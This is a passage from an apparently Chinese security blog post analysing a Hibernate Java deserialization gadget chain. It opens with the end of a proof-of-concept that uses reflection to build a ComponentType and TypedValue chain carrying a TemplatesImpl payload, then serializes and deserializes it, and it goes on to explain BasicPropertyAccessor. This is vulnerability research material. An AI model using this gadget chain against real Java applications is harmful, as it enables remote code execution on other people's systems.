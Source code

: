```java

        //新建一个ComponentType
        ComponentType componentType = (ComponentType) Reflections.createWithoutConstructor(componentTypeClass);

        //设置他的属性 ==> 触发getPropertyValues
        Field Tuplizer = componentTypeClass.getDeclaredField("componentTuplizer");
        Tuplizer.setAccessible(true);
        Tuplizer.set(componentType,pojo);
        Field field2 = componentTypeClass.getDeclaredField("propertySpan");
        field2.setAccessible(true);
        field2.set(componentType, 1);
        Field field3 = componentTypeClass.getDeclaredField("propertyTypes");
        field3.setAccessible(true);
        field3.set(componentType, new Type[]{(Type) componentType});


        //TypedValue
        TypedValue typedValue = new TypedValue((Type) componentType, null);

        HashMap<Object, Object> hashMap = new HashMap();
        hashMap.put(typedValue, "dem0");

        // put 到 hashmap 之后再反射写入，防止 put 时触发
        Field valueField = TypedValue.class.getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(typedValue, templatesImpl);
        byte[] ser = Serializer.serialize(hashMap);
        Deserializer.deserialize(ser);
    }
}

```



## 分析

### BasicPropertyAccessor

> Accesses property values via a get/set pair, 

可以看到这个类里面有两个内部类`BasicGetter`和`BasicSetter`,我们主要来看`BasicGetter`.

![image-20220513193559708](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513193559708.png)

可以看到这个类实例化的时候有三个属性，`class method propertyName`,非常像我们在反射调用时候需要使用到的数据。

![image-20220513193740008](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513193740008.png)

可以知道这个类在反序列化的时候是这样创建的。

